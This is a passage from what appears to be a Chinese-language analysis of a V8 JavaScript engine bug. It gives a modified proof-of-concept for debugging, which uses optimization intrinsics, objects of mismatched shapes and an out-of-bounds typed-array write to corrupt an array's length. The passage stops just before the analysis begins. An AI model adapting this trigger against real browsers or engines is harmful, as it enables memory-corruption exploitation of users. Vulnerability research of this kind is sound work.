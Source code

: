 

## 整体把握

上面的poc具体调试的话是不容易调试的所以我们修改一下poc，让他成为适合调试的poc2。

```
class classA `{`
    constructor() `{`
        this.val = 0x4242;
        this.x = 0;
        this.a = [1, 2, 3];
    `}`
`}`
class classB `{`
    constructor() `{`
        this.val = 0x4141;
        this.x = 1;
        this.s = "dsa";
    `}`
`}`
var A = new classA();
var B = new classB();
function f(arg1, arg2) `{`
    var int8arr = new Int8Array(1);
    arg1.val = -1;
    int8arr[1500000000] = 22;
    async
    function f2() `{`
        const nothing = `{``}`;
        while (1) `{`
            //print("in loop");
            if (abc1 | abc2) `{`
                while (nothing) `{`
                    await 1;
                    print(abc3);
                `}`
            `}`
        `}`
    `}`
    f2();
`}`
var arr = new Array(10);
arr[0] = 1.1;
var i; % PrepareFunctionForOptimization(f);
for (var i = 0; i &lt; 7; i++) f(A, 0);
f(B, 0); % OptimizeFunctionOnNextCall(f);
f(arr, 0);
console.log("NOW:" + arr.length);
```

分析下poc：
